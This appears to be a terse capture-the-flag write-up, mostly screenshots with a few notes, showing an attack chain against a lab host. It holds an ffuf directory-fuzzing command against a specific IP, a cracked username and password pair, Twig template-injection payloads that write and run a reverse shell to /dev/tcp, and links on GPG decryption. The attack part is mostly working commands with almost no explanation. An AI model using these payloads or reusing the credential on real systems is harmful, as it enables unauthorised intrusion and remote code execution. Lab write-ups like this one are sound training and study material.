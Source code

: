 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bbfefa19-696d-448d-a6bd-246dc81125ba)

https://hackware.ru/?p=13801#410

GPG

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5eec6f3b-1b22-4ec2-a31f-e0ef59ef5b99)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97a39e8a-3a19-4f40-83df-e96b5990b497)

https://superuser.com/questions/920793/how-to-specify-private-key-when-decrypting-a-file-using-gnupg



